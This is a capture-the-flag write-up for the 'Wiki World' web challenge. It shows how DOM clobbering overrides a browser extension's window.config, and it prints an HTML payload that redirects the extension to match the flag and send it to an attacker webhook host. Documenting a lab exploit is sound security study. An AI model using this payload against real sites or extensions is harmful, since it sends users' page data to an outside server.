 ```yaml
---
id: a8ed8cbf-3107-4c9d-9af2-f932dd1f47cb
title: Wiki World
created_time: 2024-04-30T23:01:00.000Z
last_edited_time: 2024-04-30T23:08:00.000Z
cover_image: ./imgs/OIP_xPNAAOEI.2juz8QXiO6Yie-YlVDAQhwHaEh
icon_emoji: ✨
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Wiki World
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/OIP_xPNAAOEI.2juz8QXiO6Yie-YlVDAQhwHaEh

---
```


# Description

Can you alpha test out our newest note-taking [website](https://wikiworld.cha.hackpack.club/)? (If you find anything, please report it to us using  `nc cha.hackpack.club 8702`)

Also unrelatedly, our website admin is really fond of the wiki-world extension, he uses it all the time, even on his work computer.

I should probably get him to stop using it tho, it hasn't been approved by IT yet.

Author: Sohom (Sodium#8285)

NOTE: we recommend you try to develop a exploit locally using the provided source code before attempting the exploit on the challenge servers. Feel free to contact the admins if you have a exploit that works locally, but not on the challenge servers.

# Exploit

For this challenge, we have provided the source code, which can be downloaded at the following link:

<https://drive.google.com/file/d/1H-wGeUFgk8jvBK3XO8NV55pzs1FEn7fy/view?usp=share_link>

The source code for the challenge reveals that the admin bot utilizes a custom web browser extension.

![](./imgs/zUM8U2b_BQPuKYkE.png)

![](./imgs/sM2UErh_P260wfDa.png)

After reviewing the extension's source code above as shown in image above, we discovered that it retrieves its configuration from the window object. This vulnerability can be exploited using a technique called DOM clobbering, which is described in detail at the following URL:

[embed](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)

By utilizing this technique, we were able to change the value of window\.config and manipulate the behavior of the extension.

The following payload can be used to exploit this vulnerability:

```html
<a id=config><a id=config name=WIKI_REGEX href="BLOB:.*?(flag\\{.*?\\})"></a>
<a id=config><a id=config name=WIKIPEDIA_SERVER href="<https://webhoo.site>"></a>

```

This payload modifies the values of `config.WIKI_REGEX` and `config.WIKIPEDIA_SERVER` to match the flag and send it to the attacker's server.

Next, we return to the challenge web page and copy the payload into the text area, as shown in the image below:

![](./imgs/6bhyR0b_OB8cGLpi.png)

We retrieve the URL and paste it into the bot server as shown in the following image:

![](./imgs/bsCsc2G_ama2LoGJ.png)

![](./imgs/D4y65hZ_BVk3j3eT.png)

After that, we can see the flag in our webhook server:

![](./imgs/CeD5qnE_IutotToB.png)
